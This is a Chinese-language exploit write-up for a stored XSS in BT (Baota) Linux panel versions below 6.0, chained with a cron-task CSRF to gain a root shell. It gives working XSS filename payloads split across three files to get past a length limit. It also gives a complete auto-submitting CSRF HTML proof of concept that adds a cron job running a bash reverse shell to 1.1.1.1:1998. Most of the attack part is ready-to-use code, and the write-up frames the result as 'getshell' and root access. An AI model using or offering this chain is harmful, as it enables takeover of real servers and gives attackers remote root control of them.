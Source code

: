 ## 宝塔linux面板 <6.0 存储形xss 0day漏洞getshell

## 漏洞描述

宝塔面板是什么就不说了，小于6.0的版本存在存储性xss，该版本比较古老了，如果遇到了还是可以一用。

## 漏洞影响

> 宝塔Linux面板<6.0

## 漏洞复现

假设我们已经通过网站漏洞或者ftp弱口令等,可以在web目录下进行文件上传

在web目录下上传一个文件名为 `<img src=x onerror="alert(1)">`的文件

![1](resource/宝塔存储xss/1.png)

在宝塔后台浏览文件,触发payload

![2](resource/宝塔存储xss/2.png)

但是由于宝塔的session加了httponly,所以我们是无法获取到宝塔的cookie的,但是我们可以配合计划任务的一个csrf的漏洞来达到权限提升的效果

POC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://1.1.1.1:8888/crontab?action=AddCrontab" method="POST">
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="type" value="minute-n" />
      <input type="hidden" name="where1" value="5" />
      <input type="hidden" name="hour" value="" />
      <input type="hidden" name="minute" value="" />
      <input type="hidden" name="week" value="" />
      <input type="hidden" name="sType" value="toShell" />
      <input type="hidden" name="sBody" value="bash -i >& /dev/tcp/1.1.1.1/1998 0>&1" />
      <input type="hidden" name="sName" value="" />
      <input type="hidden" name="backupTo" value="localhost" />
      <input type="hidden" name="urladdress" value="" />
      <input type="hidden" name="save" value="" />
      <input type="hidden" name="sBody" value="bash -i >& /dev/tcp/1.1.1.1/1998 0>&1" />
      <input type="hidden" name="urladdress" value="" />
      <input type="submit" id="a" value="Submit request" />
    </form>
  </body>
  <script>
    document.getElementById('a').click()
</script>
</html>
```

修改poc中的ip地址,保存到网页上传到test.com中,当宝塔管理员访问这个页面以后,会自动跳转到

![3](resource/宝塔存储xss/3.png)

后台会自动添加反弹shell的计划任务

![4](resource/宝塔存储xss/4.png)

![5](resource/宝塔存储xss/5.png)

现在准备就绪,只要让管理员打开这个网页就可以了

回到上传文件的地方,因为有触发点有字符数限制,所以用多个语句构造,因为执行顺序的关系,可能需要刷新一下文件管理即可触发

![6](resource/宝塔存储xss/6.png)

新建三个文件,文件名分别为

```
a<img src=x onerror="a=String.fromCharCode(47)">
b<img src=x onerror="b='.com'">
c<img src=x onerror="window.open(a+a+'test'+b)">
```

payload触发以后会自动打开test.com网页

![7](resource/宝塔存储xss/7.png)

将上一步CSRF的payload部署到test.com,管理员浏览文件的时候即可触发,触发后五分钟会反弹shell

![8](resource/宝塔存储xss/8.png)

root权限~